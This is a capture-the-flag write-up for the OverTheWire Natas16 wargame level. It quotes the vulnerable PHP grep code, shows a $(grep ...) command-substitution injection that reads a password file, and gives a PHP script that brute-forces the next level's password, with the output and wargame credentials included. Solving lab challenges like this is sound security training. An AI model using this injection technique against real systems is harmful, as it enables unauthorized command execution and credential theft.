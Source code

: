 # ctf
CTF - cracking wargames

# Natas16

## Notes

1.  The aim of this level is to read the password in the file `/etc/natas_webpass/natas17`

1.	This level is like previous levels (9, 10) where we have a search form to grep contents from `dictionary.txt`. But this time they've made it more challenging:

		For security reasons, we now filter even more on certain characters

2.	Viewing the source reveals what tricks they are using:

		if (preg_match('/[;|&`\'"]/',$key)) {
		    print "Input contains an illegal character!";
		} else {
		    passthru("grep -i \"$key\" dictionary.txt");
		}
    
3.  To break out of the inner quotes for key, we can have bash evaluate an expression for us, like so:

		$(grep a /etc/natas_webpass/natas17)

4.  If the password contains `a` it is returned by `grep`, and since that result don't match anything in a dictionary, the result is empty.

5. As the grep above won't tell us _where_ in the password `a` is, we can instead use regex `.` to brute force the password, starting with `a...............................`:

		$(grep a............................... /etc/natas_webpass/natas17)
    
6. Brute forcing is of course easier with a script (here using simple html dom lib):

		<?php
		    include('simple_html_dom.php');

		    function find($key) {
		        $url = 'http://natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh@natas16.natas.labs.overthewire.org/?needle=$(grep%20' . $key . '%20/etc/natas_webpass/natas17)&submit=Search';
		        $html = file_get_html($url);
		        return (strlen($html->find('pre')[0]->plaintext) < 10);
		    }

		    $key = "................................";

		    for ($i = 0; $i < 32; $i++) {
		        foreach(array_merge(range(0, 9), range('A', 'Z'), range('a', 'z')) as $c) {
		            $key[$i] = $c;
		            if (find($key)) {
		                print $key . "<br>";
		                break;  
		            }
		        }
		    }
		?>
    
7. This gives us the following result, ending with the password for `natas17`:

		8...............................
		8P..............................
		8Ps.............................
		8Ps3............................
		8Ps3H...........................
		8Ps3H0..........................
		8Ps3H0G.........................
		8Ps3H0GW........................
		8Ps3H0GWb.......................
		8Ps3H0GWbn......................
		8Ps3H0GWbn5.....................
		8Ps3H0GWbn5r....................
		8Ps3H0GWbn5rd...................
		8Ps3H0GWbn5rd9..................
		8Ps3H0GWbn5rd9S.................
		8Ps3H0GWbn5rd9S7................
		8Ps3H0GWbn5rd9S7G...............
		8Ps3H0GWbn5rd9S7Gm..............
		8Ps3H0GWbn5rd9S7GmA.............
		8Ps3H0GWbn5rd9S7GmAd............
		8Ps3H0GWbn5rd9S7GmAdg...........
		8Ps3H0GWbn5rd9S7GmAdgQ..........
		8Ps3H0GWbn5rd9S7GmAdgQN.........
		8Ps3H0GWbn5rd9S7GmAdgQNd........
		8Ps3H0GWbn5rd9S7GmAdgQNdk.......
		8Ps3H0GWbn5rd9S7GmAdgQNdkh......
		8Ps3H0GWbn5rd9S7GmAdgQNdkhP.....
		8Ps3H0GWbn5rd9S7GmAdgQNdkhPk....
		8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq...
		8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9..
		8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c.
		8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
